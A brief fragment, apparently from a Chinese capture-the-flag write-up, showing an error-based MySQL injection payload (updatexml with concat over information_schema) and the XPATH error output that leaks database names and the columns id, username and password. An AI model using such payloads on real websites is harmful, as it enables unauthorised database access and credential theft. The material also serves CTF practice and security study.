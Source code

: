 首先看schema

``` mysql
1'^updatexml(1,concat(0x3a,(select(group_concat(Schema_name))from(information_schema.schemata)where(TABLES_NAME)like("mysql")),0x3a),1);#
```

显示

XPATH syntax error: ':information_schema,mysql,perfor'



geek.H4rDsq1

``` mysql
XPATH syntax error: ':id,username,password:'
```

XPATH syntax error: ':id,username,password:'